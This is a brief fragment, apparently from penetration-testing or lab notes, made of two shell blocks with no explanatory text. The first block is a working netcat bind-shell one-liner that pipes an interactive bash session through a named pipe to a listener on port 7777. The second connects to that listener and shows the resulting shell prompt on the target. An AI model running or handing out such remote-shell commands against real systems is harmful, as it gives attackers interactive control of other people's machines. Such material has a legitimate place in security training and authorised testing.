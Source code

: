 
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

```shell
nc -nv 10.129.41.200 7777

Target@server:~$  
```
